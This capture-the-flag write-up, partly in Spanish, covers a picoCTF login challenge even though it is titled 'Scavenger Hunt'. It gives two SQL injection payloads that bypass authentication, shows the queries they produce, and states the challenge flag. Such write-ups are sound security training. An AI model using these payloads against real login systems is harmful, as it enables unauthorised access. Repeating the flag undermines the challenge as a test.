 ### Scavenger Hunt
### Description 

There is a website running at `https://jupiter.challenges.picoctf.org/problem/33850/` ([link](https://jupiter.challenges.picoctf.org/problem/33850/)) or http://jupiter.challenges.picoctf.org:33850. Do you think you can log us in? Try to see if you can login
### Hint

-  There doesn't seem to be many ways to interact with this. I wonder if the users are kept in a database?
- Try to think about how the website verifies your login.

## Solución  1
```
usamos el usuario `admin'--_` para comentar el resto de la consulta, ignorando la verificación de contraseña.
username: admin'--_
password: hola
SQL query: SELECT * FROM users WHERE name='admin'--_' AND password='hola'

# Logged in!


picoCTF{s0m3_SQL_f8adf3fb}
```


## Solución  2

```
usamos de ejemplo `juan' or 1=1;` para hacer que la condición **siempre sea verdadera**, logrando acceso sin importar el usuario o contraseña.

username: juan' or 1=1;
password: hola
SQL query: SELECT * FROM users WHERE name='juan' or 1=1;' AND password='hola'

# Logged in!

Your flag is: picoCTF{s0m3_SQL_f8adf3fb}
```